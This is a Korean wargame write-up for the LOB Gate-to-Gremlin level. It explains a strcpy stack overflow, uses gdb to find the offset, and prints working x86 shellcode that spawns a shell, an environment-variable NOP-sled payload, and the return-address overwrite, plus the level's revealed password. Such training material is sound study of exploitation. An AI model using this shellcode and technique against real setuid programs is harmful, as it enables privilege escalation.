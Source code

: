 Gate -> Gremlin

모든 LOB문제를 풀 때에는 bash2를 입력하여 bash를 bash2로 바꾸어 주어야 합니다. 버전이 낮아서 bash는 "\xff"를 "\x00"으로 인식을 하여 문제를 풀지 못합니다.


**gremlin.c**

```C
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
인자 값이 2개 이상이어야 하는 것 말고는 별다른 조건은 없습니다.<br>
gdb를 이용하여 버퍼의 크기를 구해보도록 하겠습니다. <br>
이 때 원본파일은 권한이 없어서 직접 gdb를 이용할 수 없으니, temp 디렉토리를 만들어서 그 디렉토리에 파일을 복사하여 분석 및 공격을 해보도록 하겠습니다.
<br><br>

```
[gate@localhost gate]$ mkdir temp
[gate@localhost gate]$ cp gremlin temp/
[gate@localhost gate]$ cd temp
[gate@localhost temp]$ ls
gremlin
```

디텍토리가 잘만들어지고 파일이 잘 복사된 것을 볼 수 있습니다. 이제 gdb를 이용하여 버퍼의 크기를 구해도록 하겠습니다.
<br>
```
[gate@localhost temp]$ gdb -q gremlin 
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,0x100
~~~생략~~~
0x804845f <main+47>:	lea    %eax,[%ebp-256]
0x8048465 <main+53>:	push   %eax
0x8048466 <main+54>:	call   0x8048370 <strcpy>
0x804846b <main+59>:	add    %esp,8
0x804846e <main+62>:	lea    %eax,[%ebp-256]
~~~생략~~~
```
gdb에 -q 옵션을 주어 gdb를 시작할 때 나오는 여러가지 문구를 생략할 수 있습니다.<br>
`(gdb)set disassembly-flavor intel`로 인텔문법으로 어셈블리어를 볼 것 이며, `(gdb)disas main`으로 main함수를 디스어셈블리 한 것입니다.
<br><br>
여기서 중요한 부분은 main+47 과 main+54부분입니다.
strcpy함수에서 오버플로우가 발생하고, 버퍼의 크기가 256이라는 것을 알 수 있습니다.<br>
strcpy함수에서 오버플로우가 발생하는 이유는 strcpy함수가 입력받는 문자열의 길이를 검사하지 않아서 버퍼의 크기를 넘게 입력을 받는 경우가 생기기 때문입니다.<br>
이후에도 입력받는 문자열의 길이를 검사하지 않아서 오버플로우를 발생시키는 함수가 더 등장할 것 입니다.
<br>
간단하게 스택구조를 그려보면 다음과 같이 나타낼 수 있습니다.
<br>>>>`Buffer(256) + SFP(4) + RET(4)`
<br><br>
저는 환경변수를 이용하여 공격을 하겠습니다. 환경변수에 '\x90'을 앞에 채우고 그 뒤에 쉘코드를 넣고, 환경변수의 주소를 알아낼 것 입니다.<br>
그리고 알아낸 환경변수의 주소를 RET에 넣어서 쉘코드를 실행시킬 것입니다.
'\x90'이란 흔히 nop라고 부릅니다.  NOP는 NOP Sled의 No-OPeration의 약자로 즉 실행을 해도 실행할 명령어가 없기에 실행포인터가 다음 흐름으로 넘어간다고 생각하면 된다. 프로그램이 nop를 만나면 쭉 지나가다가 쉘코드가 실행된다고 생각하면 될 것 입니다.

```
[gate@localhost temp]$ export EGG=`python -c 'print "\x90"*100 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc1\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```

이렇게 EGG라는 이름의 환경변수를 만들고 그 안에 쉘코드를 넣어줄 수 있고, 다음의 소스코드로 환경변수의 주소를 알아낼 수 있습니다.<br>
**hack.c**
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
        char *p;
        p = getenv(argv[1]);

        if(p != NULL)
        {
                printf("%s=%p\n",argv[1],p);
        }
        return 0;
}
```

```
[gate@localhost temp]$ ./hack EGG
EGG=0xbffffe27
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*260 + "\x27\xfe\xff\xbf"'`
'þÿ¿
```
더미값으로 ret 전까지 260만큼 채워주고, ret에 환경변수의 주소를 넣어서 주었습니다. 주소는 리틀엔디안 방식으로 넣어주어야 합니다. 복사한 파일에 공격을 성공하였고, 원본파일에도 똑같이 공격을 하여서 성공하였습니다.

```
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*260 + "\x27\xfe\xff\xbf"'`
'þÿ¿
bash$ my-pass
euid = 501
hello bof world
```
